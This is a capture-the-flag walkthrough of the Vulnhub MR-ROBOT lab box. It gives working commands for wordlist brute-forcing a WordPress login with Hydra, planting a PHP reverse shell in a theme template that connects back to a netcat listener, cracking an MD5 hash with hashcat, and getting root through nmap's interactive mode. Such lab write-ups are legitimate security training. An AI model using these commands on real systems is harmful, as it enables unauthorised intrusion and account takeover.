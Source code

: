 # This is the write up for the Vulnhub box MR-ROBOT: 1 

Ip Address: 10.38.1.112

## **Information Gathering**
---
Starting with an Nmap port Scan of we see this output:

![](2022-04-28-20-51-11.png)

The two open ports are the HTTP port 80 and the HTTPS port of 443. These two ports being open, we can assume that this is a web server.

Upon navigating to the server address within a web browser we are greeted with this:

![](2022-04-28-20-55-54.png)

After poking around with the listed commands and running into dead-ends we can view the `/robots.txt file` which gives us this: 

![](2022-04-28-21-09-55.png)

It looks like we have the first key! If we insert `key-1-of-3.txt` where `robots.txt` was we are able to view the key: `073403c8a58ald80d943455fb30724b9`

![](2022-04-28-21-17-08.png)


After navigating back to `robots.txt` we can use this command we can pull down the dictionary file.
```
wget 10.38.1.112/fsocity.dic
```

Attempting to `cat` the file we can see there is a ton of scrolling entries. If we instead pipe the command to `wc -l` we see there are 858,160 lines in this file. 

![](2022-04-28-21-30-48.png)

If we use `cat` and pipe the command to `grep -i "robot"` we see that the file repeats itself.

![](2022-04-28-21-41-41.png)


Let's use this command to count the number of unique entries
```
cat fsocity.dic | sort -u | wc -l
```

After doing so we see there are 11,451 unique entries. We will now use this command to save these entries into a new dictionary file
```
cat fsocity.dic | sort -u >> new_fsocity.dic
```

Now lets use `dirb` to see if we can find any more directories in this page
```
dirb http://10.38.1.112 /usr/share/wordlists/dirb/common.txt
```

This is the output of that command

![](2022-04-28-22-06-39.png)

After running into the dead-end that was the `/readme` we can turn our attention to the `/login/`. Which we then see a login screen for WordPress

![](2022-04-28-22-16-59.png)

When we viewed the `fsocity.dic` file earlier, one of the first entries that seemed like it could be a username was `Elliot`  

![](2022-04-28-22-18-37.png)

If we attempt to brute force our way into the `Elliot` username and use the password `password` we see that Elliot is, in fact, the name of a user.

![](2022-04-28-22-20-19.png)

Now that we have a user we can use a `Hydra` command to try and brute force his password. We know that logins use a POST request so our structure looks like this:
```
hydra -vv -l elliot -P /home/kali/Desktop/new_fsocity.dic 10.38.1.112 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
```

And after about 5 minutes we have this nice message: 

![](2022-04-28-22-48-28.png)

So now we have `elliot's` password, which is: `ER28-0652`


## **Exploitation**
---
When looking for these flags, the easiest way I can think of is to somehow get into a shell. Knowing the website is run on `.php` we can do a quick google search for `"php reverse shell kali linux location"` we find the location of the reverse shell code at `/usr/share/laudenum/php/php-reverse-shell.php`

we need to nano this code and make soime changes prior to uploading it to wordpress. These are the changes we need to make

![](2022-04-28-23-29-34.png)

ip needs to be set to our kali box `ip` of `10.38.1.110` and the `port` can be set to `443`

Next we need to open a new terminal and start a NetCat listener for port 443
```
nc -lnvp 443
```

Navigating to appearance/editor in the wordpress site and using the `404 template` we can paste our new php script.

![](2022-04-28-23-32-50.png)

Once we save the script we can make a new tab and put the URL as `10.38.1.112/hi` to trigger the netcat listener which gives us our shell access. 

![](2022-04-28-23-34-46.png)

Through a series of directory traversals we now have access to `key-2-of-3.txt` and `password.raw-md5`

![](2022-04-28-23-38-04.png)

If we try to view the key file we get permission denied. This is due to the owner of the file being the user `robot`

if we `cat` the password file we get this md5 hash

![](2022-04-28-23-41-58.png)

We can use the hashcat tool to crack this password hash. To do this, we need to copy the contents of `password.raw-md5` to our kali desktop, delete the `robot:`, and run this command
```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
```

After about one minute hashcat will have cracked the password and we see this:

![](2022-04-28-23-58-47.png)

So for the user `robot` the password is `abcdefghijklmnopqrstuvwxyz`

Now from our reverse shell we can `su` to the user `robot` and view the file but doing so yields this error: 

![](2022-04-29-00-08-05.png)

After googling this problem, we can actually spawn a bash shell using python and this command.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Doing so will get us a bash terminal where we then can `su` into the user `robot`

We then can `cat` the key file and see key 2 is `822c73956184f694993bede3eb39f959`

![](2022-04-29-00-15-16.png)

# Escalation

Moving onto the last key we can make an assumption that we must elevate our permiissions to be `root` 

Using this command we can see what version of nmap we are running:
```
nmap --version
```

Oh look, we are running an older version of nmap.

![](2022-04-29-10-35-56.png)

After a quick search online we find out we can use this version of nmap in it's interactive mode to escalate our privileges to root.
```
nmap --interactive
```
Then once inside we can run
```
!/bin/bash
```
We see by doing this we can get the normal bash shell. Let's exit and try a different shell
```
!sh
```
Then
```
whoami
```
It looks like that gave us the root access we need!!

![](2022-04-29-10-41-45.png)

If we navigate to `/root` and look in the directory we see the file for `key-3-of-3.txt`

![](2022-04-29-10-43-20.png)

If we `cat` the file we are rewarded with our third and final key!!!

![](2022-04-29-10-44-17.png)


# Congratulations!!!

#### Thanks so much for coming along on this journey with me